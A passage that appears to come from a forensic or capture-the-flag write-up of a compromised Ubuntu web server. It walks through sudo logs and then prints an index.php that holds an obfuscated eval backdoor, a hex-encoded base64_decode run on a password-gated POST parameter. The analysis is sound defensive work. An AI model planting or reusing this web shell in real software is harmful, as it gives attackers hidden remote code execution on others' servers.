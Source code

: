Apr 08 15:50:10 ip-172-31-26-196 sudo[32261]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/apt install apache2 -y
Apr 08 15:50:56 ip-172-31-26-196 sudo[33148]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/systemctl start apache2
Apr 08 15:50:56 ip-172-31-26-196 sudo[33152]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/systemctl enable apache2
Apr 08 15:51:15 ip-172-31-26-196 sudo[33233]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/apt install php libapache2-mod-php -y
Apr 08 15:57:40 ip-172-31-26-196 sudo[39767]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/apt install php libapache2-mod-php -y
Apr 08 16:05:56 ip-172-31-26-196 sudo[39790]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu/simple-php-website ; USER=root ; COMMAND=/usr/bin/php -S 0.0.0.0:80
Apr 08 16:06:08 ip-172-31-26-196 sudo[39793]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu/simple-php-website ; USER=root ; COMMAND=/usr/bin/php -S 0.0.0.0:8080
Apr 08 16:07:03 ip-172-31-26-196 sudo[39804]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu/simple-php-website ; USER=root ; COMMAND=/usr/bin/mv content includes index.php readme.md template /var/www/html/
Apr 08 16:09:41 ip-172-31-26-196 sudo[39859]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu/simple-php-website ; USER=root ; COMMAND=/usr/bin/nano /etc/apache2/mods-enabled/dir.conf
Apr 08 16:11:39 ip-172-31-26-196 sudo[39898]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu/simple-php-website ; USER=root ; COMMAND=/usr/bin/systemctl restart apache2.service
Apr 10 16:51:01 ip-172-31-26-196 sudo[85081]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/rm hostname.txt
Apr 10 16:51:12 ip-172-31-26-196 sudo[85099]:   ubuntu : TTY=pts/1 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/rm /tmp/.xz
Apr 12 04:21:03 ip-172-31-37-6 sudo[8389]:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/nano /var/www/html/loaderio-499ad27fec65c9b7eecc26389bd87483.txt
Apr 12 08:16:59 ip-172-31-37-6 sudo[13643]:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/cat /root/.bash_history

{% endhighlight %}

A lot of really suspicious activity, however there is also some execution of php in the `simple-php-website` followed by a removal of the `/tmp/.xz` file - an indicator for XZBot.
Let's dive into the php files that were moved to `/var/www/html`, and check the `index.php`

{% highlight php %}
root@ip-172-31-33-224:~# cat /var/www/html/index.php 
<?php

// Comment these lines to hide errors
error_reporting(E_ALL);
ini_set('display_errors', 1);

require 'includes/config.php';
require 'includes/functions.php';

init();
if (@$_POST['do'] && @md5(md5($_POST['pass'])) == '696d29e0940a4957748fe3fc9efd22a3') {
    $x = "\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65";
    @eval($x($_POST['do']));
    exit();
}
{% endhighlight %}
